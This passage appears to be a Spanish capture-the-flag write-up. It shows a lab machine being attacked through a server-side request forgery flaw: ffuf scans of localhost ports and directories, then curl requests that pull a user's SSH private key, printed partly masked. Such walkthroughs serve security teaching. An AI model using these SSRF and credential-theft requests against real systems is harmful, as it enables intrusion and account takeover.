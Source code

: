 ### SSRF

Voy a buscar puertos en la máquina casino solo accesibles desde localhost.

```
$ for i in {1..65535};do echo $i >> nums; done
$ ffuf -w nums -u "http://192.168.1.104/casino/explainmepls.php?learnabout=localhost:FUZZ" -b "PHPSESSID=lsfftgbqs7kkudnn11auta1kus" -fw 284
[...]

[Status: 200, Size: 2267, Words: 576, Lines: 98, Duration: 2644ms]
    * FUZZ: 80
[Status: 200, Size: 1968, Words: 499, Lines: 81, Duration: 39ms]
    * FUZZ: 6969
```

El puerto 6969 está abierto. Además de esto, busco también subdirectorios.

```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u "http://192.168.1.104/casino/explainmepls.php?learnabout=localhost:6969/FUZZ" -b "PHPSESSID=lsfftgbqs7kkudnn11auta1kus" -fw 284
[...]
[Status: 200, Size: 1406, Words: 317, Lines: 65, Duration: 43ms]
    * FUZZ: codebreakers
```

Si realizo un **curl** en este subdirectorio, puedo ver que se hace referencia a un archivo de clave privada con el nombre del usuario **Shimmer**.

```
$ curl "http://192.168.1.104/casino/explainmepls.php?learnabout=localhost:6969/codebreakers" -H "Cookie: PHPSESSID=lsfftgbqs7kkudnn11auta1kus"
[...]
<body>
    Pls Shimmer, dont f*ck this up again...
    <a href="./shimmer_rsa"></a>
</body>
[...]
```

Puedo obtener este archivo también usando **curl**.

```
$ curl "http://192.168.1.104/casino/explainmepls.php?learnabout=localhost:6969/codebreakers/shimmer_rsa" -H "Cookie: PHPSESSID=lsfftgbqs7kkudnn11auta1kus"
<h1>LEARN HOW TO PLAY FIRST ;)</h1>

        <div id="games">
-----BEGIN OPENSSH PRIVATE KEY-----
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
NuYKgF9ZKsLLbGuvUFbUWmSZwxmxVOVW7YQAQGLiWMIPRmfd9b1PKHxf8tS8ab0jMDXk/q
g/7sgyxKaQfeU1YLlkScJ7jaum0Ccd+bJp47J11aTChOyM67tNADLZUv9XF65BuzTtY7b9
AStKXxt5Hxwfgt5dPa24loSx+lnln7f9Wo7yXCBHw7XQPOm1aqXlB4vDsOSCEdmdeYNeCx
kqeduX4jEYK21BhLAEY8ZtpPmr4KZRqefb1c4PMrUWe7nhMfQiwp2y62ARtwS5hNnAvs+d
cONlKURcTgvfZ3HI6UYL0QqDy3c+ux5uyctp16hpAAAFiNB9WT/QfVk/AAAAB3NzaC1yc2
EAAAGBAMms7/a3tQaSxXD5h+oym4O5I0yLTWHzZUQbX6Uvd2oT3awThycGCYPlhwHodpcV
rK405b2Ae4B4K9gg8PF2d7aORNpcdOrn2h91EWdVsWJ1Dja4CUKgs3jZ4j/6C5r+bjScno
5FOLDSgK8Op+g6GJhcwOarqLbeIIhvnAZeqTsMDrgYgSJE2cl34lsqeXDfnTbmCoBfWSrC
y2xrr1BW1FpkmcMZsVTlVu2EAEBi4ljCD0Zn3fW9Tyh8X/LUvGm9IzA15P6oP+7IMsSmkH
3lNWC5ZEnCe42rptAnHfmyaeOyddWkwoTsjOu7TQAy2VL/VxeuQbs07WO2/QErSl8beR8c
H4LeXT2tuJaEsfpZ5Z+3/VqO8lwgR8O10DzptWql5QeLw7DkghHZnXmDXgsZKnnbl+IxGC
ttQYSwBGPGbaT5q+CmUann29XODzK1Fnu54TH0IsKdsutgEbcEuYTZwL7PnXDjZSlEXE4L
32dxyOlGC9EKg8t3PrsebsnLadeoaQAAAAMBAAEAAAGAFHpNYVlU9cZoaujDbrnVxaHCXk
7UvCnpMemvpAe2UdyTiRnwgrtfsvdW5pAynnOydXvkigHmSGyrUwZBQNtdG3nFrwBtVL7X
```